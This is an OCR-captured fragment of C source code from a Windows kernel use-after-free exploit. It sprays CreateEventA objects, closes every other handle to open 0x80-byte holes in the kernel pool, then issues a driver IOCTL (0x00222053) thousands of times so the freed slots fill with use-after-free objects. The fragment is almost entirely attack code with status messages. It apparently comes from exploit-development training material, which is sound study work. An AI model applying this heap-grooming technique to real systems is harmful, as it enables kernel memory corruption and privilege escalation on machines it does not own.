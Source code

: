 ```c
            FALSE,
            FALSE,
            NULL
        );

        // Assign the handles to the array
        eventObjects[i] = tempHandle;
    }

    // Check to see if the first handle is a valid handle
    if (eventObjects[0] == NULL)
    {
        printf("[-] Error! Unable to spray CreateEventA objects! Error: 0x%lx\n", GetLastError());

        return 0x1;
        exit(-1);
    }
    else
    {
        printf("[+] Sprayed CreateEventA objects to fill holes of size 0x80!\n");

        // Close half of the handles
        for (int i = 0; i <= 5000; i += 2)
        {
            BOOL tempHandle1 = CloseHandle(
                eventObjects[i]
            );

            eventObjects[i] = NULL;

            // Error handling
            if (!tempHandle1)
            {
                printf("[-] Error! Unable to free the CreateEventA objects! Error: 0x%lx\n", GetLastError());

                return 0x1;
                exit(-1);
            }
        }

        printf("[+] Poked holes in the new pool page!\n");

        // Allocate UaF Objects in place of the poked holes by just invoking the IOCTL, which will call ExAllocatePoolWithTag for a UAF object
        // kLFH should automatically fill the freed holes with the UAF objects
        DWORD bytesReturned;

        for (int i = 0; i < 2500; i++)
        {
            DeviceIoControl(
                driverHandle,
                0x00222053,
                NULL,
                0,
                NULL,
                0,
                &bytesReturned,
                NULL
            );
        }

```